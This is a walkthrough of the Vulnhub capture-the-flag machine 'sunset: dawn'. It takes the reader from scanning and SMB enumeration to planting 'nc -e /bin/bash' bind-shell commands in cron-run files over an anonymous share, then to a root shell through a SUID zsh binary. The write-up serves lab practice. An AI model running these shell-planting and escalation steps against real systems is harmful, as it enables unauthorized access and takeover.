

# Sunset-dawn-Vulnhub-Walkthrough
Sunset: dawn Vulnhub Walkthrough

**Description**
dawn is a boot2root machine with a difficulty designed to be Easy with multiple ways to be completed. It is recommended to use Virtualbox.

Vulnhub link: https://www.vulnhub.com/entry/sunset-dawn,341/

***Name: sunset: dawn
Date release: 3 Aug 2019
Author: whitecr0wz
Series: sunset***

So let's begin hacking!!

**Step 1: Scan the machine**

> nmap -sV -A <IP_address_of_your_machine>

As we can see that port 80 is open which is hosting Apache httpd service and also we have the port 139,445,3306 open. This tells us that we have the NetBIOS and MySQL service running on the target machine respectively.

**Step 2: Go to machine's IP in web browser**

In your web browser

>http://<IP_address_of_your_machine>  

This doesn't help us much! Let's try bruteforcing the IP with dirb.

**Step 3: Bruteforce the IP with dirb**

> dirb http://<IP_address_of_your_machine>

We are looking only for files containing .txt extension

After bruteforcing we got a directory `logs` Let's see what it contains

In your web browser

>http://<IP_address_of_your_machine>/logs

Tried to access the various log files listed here, but it's forbidden except `management.log`

**Step 4: Access the management.log**

>cd Downloads

>cat management.log

From this we get to know there's a directory `ITDEPT` and it contains two files web-control and product-control.
As these files were mentioned with cron, we can safely say that these files are getting executed by some background task.

We found that there is a NetBIOS SMB port open in nmap result, so we can use the Enum4Linux script. This shows that we have the ITDEPT directory we found earlier. This means this directory is accessible through SMB.

**Step 5: Access through enum4linux**

>enum4linux -a <IP_address_of_your_machine>

From this we came to know that there are two users `dawn` and `ganimedes`

**Step 6: Access through smbclient**

> smbclient //<IP_address_of_your_machine>/ITDEPT

>When asks for password press enter

Since we found the ITDEPT directory in our enumeration. We tried to access it using the SMB as shown in the sccreenshot. As we can see there is nothing there.

**Step 7: Create files**

> echo "nc -e /bin/bash -lvp 1234 &" > web-control

> echo "nc -e /bin/bash -lvp 1235 &" > product-control

We went back to our terminal and created the files by the name of `product-control` and `web-control`. We created the files by this name because earlier while enumerating the `management.log` file we saw that files with this name were executed after every minute. again and again, using cron. We also entered the netcat shell invocation script in those files using the echo command as well.

**Step 8: Upload the file **

> puts web-control

> puts product-control

Now back to the SMB shell, we transferred the files that we just created to the target system using the put command. Both the files were successfully transferred. After the transfer, we ran the ls command to check whether the files were indeed on the system or not. As seen in the image given below, we have put our files on the target system. 

**Step 9: Check the log file**

In your web browser

>http://<IP_address_of_your_machine>/logs

>cd Downloads

(Check your new file name)
>cat management.log 

Refer to `Step 3` and `Step 4` for accessing `management.log`.
We can see that the file we created were successfully executed.

**Step 10: Using netcat**

> nc <IP_address_of_your_machine> 1234

> python -c 'import pty;pty.spawn("/bin/bash")' 

Using netcat we got our shell. For a proper shell we used the python one-liner. And after this we came to know this shell belongs to user `dawn`.

**Step 11: Acceessing root**

>find / -perm -u=s -type f 2>/dev/null

>whoami

>/usr/bin/zsh

>whoami

>cd /root

>ls

>cat flag.txt

As we got our shell, it's a regular practice to check for any file having SUID permissions with the help of `find command`.From this, we enumerated all binaries having SUID permissions:
The `find` command gave us that the `zsh` command can help us escalate privilege on this machine.
We ran the zsh command and checked our status using the `whoami` command.
We got root. Now it was time to enumerate for the flag. We traversed into the root directory and found the `flag.txt` file.

**Thank you**

